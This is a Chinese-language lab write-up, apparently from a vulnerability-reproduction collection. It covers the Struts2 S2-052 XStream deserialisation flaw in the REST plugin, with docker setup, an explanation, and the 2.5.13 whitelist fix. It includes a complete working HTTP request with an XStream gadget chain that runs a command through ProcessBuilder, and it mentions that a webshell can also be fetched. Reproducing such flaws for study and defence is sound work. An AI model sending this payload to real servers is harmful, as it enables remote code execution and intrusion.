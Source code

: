 # S2-052 远程代码执行漏洞

影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

漏洞详情:

 - http://struts.apache.org/docs/s2-052.html
 - https://yq.aliyun.com/articles/197926

## 测试环境搭建

```
docker-compose up -d
```

## 漏洞说明

Struts2-Rest-Plugin是让Struts2能够实现Restful API的一个插件，其根据Content-Type或URI扩展名来判断用户传入的数据包类型，有如下映射表：

扩展名 | Content-Type | 解析方法
---- | ---- | ----
xml | application/xml | xstream
json | application/json | jsonlib或jackson(可选)
xhtml | application/xhtml+xml | 无
无 | application/x-www-form-urlencoded | 无
无 | multipart/form-data | 无

jsonlib无法引入任意对象，而xstream在默认情况下是可以引入任意对象的（针对1.5.x以前的版本），方法就是直接通过xml的tag name指定需要实例化的类名：

```
<classname></classname>
//或者
<paramname class="classname"></paramname>
```

所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在Struts2库中适用的gedget。

## 漏洞复现

启动环境后，访问`http://your-ip:8080/orders.xhtml`即可看到showcase页面。由于rest-plugin会根据URI扩展名或Content-Type来判断解析方法，所以我们只需要修改orders.xhtml为orders.xml或修改Content-Type头为application/xml，即可在Body中传递XML数据。

所以，最后发送的数据包为：

```
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

以上数据包成功执行的话，会在docker容器内创建文件`/tmp/success`，执行`docker-compose exec struts2 ls /tmp/`即可看到。

此外，我们还可以下载一个jspx的webshell：

![](01.png)

还有一些更简单的利用方法，就不在此赘述了。

## 漏洞修复

struts2.5.13中，按照xstream给出的缓解措施（ http://x-stream.github.io/security.html ），增加了反序列化时的白名单：

```java
protected void addDefaultPermissions(ActionInvocation invocation, XStream stream) {
    stream.addPermission(new ExplicitTypePermission(new Class[]{invocation.getAction().getClass()}));
    if (invocation.getAction() instanceof ModelDriven) {
        stream.addPermission(new ExplicitTypePermission(new Class[]{((ModelDriven) invocation.getAction()).getModel().getClass()}));
    }
    stream.addPermission(NullPermission.NULL);
    stream.addPermission(PrimitiveTypePermission.PRIMITIVES);
    stream.addPermission(ArrayTypePermission.ARRAYS);
    stream.addPermission(CollectionTypePermission.COLLECTIONS);
    stream.addPermission(new ExplicitTypePermission(new Class[]{Date.class}));
}
```

但此时可能会影响以前代码的业务逻辑，所以谨慎升级，也没有特别好的办法，就是逐一排除老代码，去掉不在白名单中的类。
